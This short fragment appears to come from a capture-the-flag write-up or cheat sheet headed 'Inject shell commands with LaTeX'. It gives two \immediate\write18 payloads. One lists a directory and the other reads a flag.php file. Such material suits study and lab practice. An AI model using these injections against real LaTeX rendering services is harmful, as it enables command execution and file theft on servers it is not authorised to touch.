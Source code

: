 
Inject shell commands with LaTeX

\immediate\write18{/bin/ls ..}
\immediate\write18{/bin/cat "../flag.php"}